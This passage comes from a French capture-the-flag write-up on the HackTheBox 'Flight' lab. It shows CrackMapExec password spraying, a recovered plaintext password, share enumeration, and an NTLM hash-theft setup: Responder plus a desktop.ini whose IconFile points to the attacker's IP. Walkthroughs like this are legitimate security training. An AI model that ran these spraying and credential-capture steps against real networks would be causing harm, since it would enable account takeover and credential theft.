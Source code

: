 Cela ne nous offre néanmoins pas de possibilité d'élever nos privilèges.

### Réutilisation du mot de passe sur d'autres comptes
Graâce à ce compte, nous pouvons tout de même énumérer la liste des comptes utilisateurs de l'annuaire Active Directory et vérifier si le mot de passe en notre possession n'est pas utilisé par un autre compte.

Nous découvrons que l'utilisateur `s.moon` utilise le même mot de passe que le compte `svc_apache` :
```
# Creation d'une liste d'utilisateur a attaquer
cme smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --users | tr -s ' ' | tail -n +4 | cut -d ' ' -f 5 | cut -d '\' -f 2 | tee users.txt

# Password spraying sur cette liste d'utilisateurs
cme smb $TARGET_IP -u users.txt -p $AD_PASSWORD --continue-on-success
```

Nous obtenons ainsi l'accès à un nouveau compte :
| Utilisateur | Mot de passe |
|--- | --- |
| `flight.htb\S.Moon` | `S@Ss!K@*t13 ` |


## Enumération des autorisations de S.Moon

Cet utilisateur possède un droit d'écriture sur le dossier `Shared` :
```
# Présence d'un droit d'écriture sur le partage Shared
$ cme smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --shares | cut -c60-
      Shared          READ,WRITE      
```
Ce dossier est vide et ne semble pas accepter la création de nouveau fichiers.
On constate que l'on peut créer des dossiers, mais la création de fichiers ne semble pas fonctionner.

Après un temps de recherche important, on découvre que cette partie du challenge est finalement totalement iréaliste (mais cela fait partie du jeu dans les CTF : en effet, la création de fichiers `.ini` est autorisée. (A quoi cela servirait dans la vrai vie, encore plus sur un partage nommé `Shared` ?).

Une fois cette découverte réalisée en se dirige vers les techniques classiques de vole de hash très bien expliqué sur [HackTricks](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#desktop.ini)

- On lance donc le responder sur l'interface VPN : `sudo responder -i tun0`
- On crée donc un fichier `desktop.ini` contenant les éléments suivants :
```text title="desktop.ini"
[.ShellClassInfo]
IconFile=\\10.10.14.149\blah
IconIndex=1337
```

On upload ensuite ce fichier :
